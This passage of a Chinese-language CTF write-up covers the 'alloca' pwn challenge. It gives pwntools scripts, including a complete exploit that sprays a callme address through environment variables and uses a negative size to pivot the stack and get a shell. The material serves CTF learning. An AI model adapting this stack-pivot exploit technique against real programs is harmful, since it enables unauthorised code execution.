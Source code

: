 ```
from pwn import *
p = process('./alloca',env = `{`"test": 'kirakira'`}`)
gdb.attach(p)
p.sendline("-67")
p.sendline(str(0x12345678))
p.interactive()
```

[![](https://p3.ssl.qhimg.com/t017be26dcc4ca83487.png)](https://p3.ssl.qhimg.com/t017be26dcc4ca83487.png)

如图所示，输入环境变量确实在栈中，那么思路就很简单了，只有把`callme`的地址大量填充到环境变量中，然后控制`esp`跳到存在环境变量的内存段即可getshell。



## 完整exp

总结一下思路：
<li>
`size`输入一个负数</li>
1. 程序运行时加入大量的`callme`地址作为环境变量
<li>
`g_canary`随便填一个栈地址（因为地址随机化，在栈空间范围内随便填一个就行了）</li>
```
from pwn import *
callme = p32(0x80485ab)
e = `{`str(i): callme * 30000 for i in range(10)`}`
p = process("/home/alloca/alloca", env = e)
p.sendline("-82")
p.sendline("-4718592") # 0xffb80000
p.interactive()
```

[![](https://p3.ssl.qhimg.com/t012e3185a2ac2bed38.png)](https://p3.ssl.qhimg.com/t012e3185a2ac2bed38.png)

由于stack空间地址随机，需要多试几次才能成功。



## 总结

虽然最后exp十分简单，但中间分析过程还是很费力的，特别是计算`size`的值的部分，解题的几个小技巧也很值得学习。
